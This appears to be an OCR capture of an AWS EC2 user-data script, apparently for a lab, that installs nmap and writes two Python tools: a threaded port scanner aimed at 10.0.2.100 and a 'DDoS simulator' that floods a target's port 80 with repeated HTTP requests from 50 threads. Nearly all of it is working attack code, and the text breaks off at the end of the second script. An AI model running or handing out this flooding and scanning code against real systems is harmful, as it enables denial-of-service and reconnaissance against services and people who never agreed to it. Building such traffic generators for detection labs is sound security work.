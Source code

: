 3. **User Data**:
```bash
#!/bin/bash
yum update -y
yum install -y python3 nmap

# Port Scanner
cat > /home/ec2-user/port_scan.py << 'EOF'
import socket
import threading
import time
import sys

def scan_port(target, port):
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(0.1)
        result = sock.connect_ex((target, port))
        sock.close()
    except:
        pass

def port_scan_attack(target, duration=300):
    print(f"Port scanning {target} for {duration} seconds")
    end_time = time.time() + duration
    
    while time.time() < end_time:
        for port in range(1, 1000):
            threading.Thread(target=scan_port, args=(target, port)).start()
            time.sleep(0.01)

if __name__ == "__main__":
    target = sys.argv[1] if len(sys.argv) > 1 else "10.0.2.100"
    port_scan_attack(target)
EOF

# DDoS Simulator
cat > /home/ec2-user/ddos_sim.py << 'EOF'
import threading
import socket
import time
import sys

def ddos_thread(target, port, duration):
    end_time = time.time() + duration
    while time.time() < end_time:
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((target, port))
            sock.send(b"GET / HTTP/1.1\r\nHost: " + target.encode() + b"\r\n\r\n")
            sock.close()
        except:
            pass
        time.sleep(0.001)

def ddos_attack(target, threads=50, duration=300):
    print(f"DDoS attack on {target} with {threads} threads for {duration} seconds")
    
    for i in range(threads):
        thread = threading.Thread(target=ddos_thread, args=(target, 80, duration))
        thread.daemon = True
        thread.start()
    
    time.sleep(duration)
```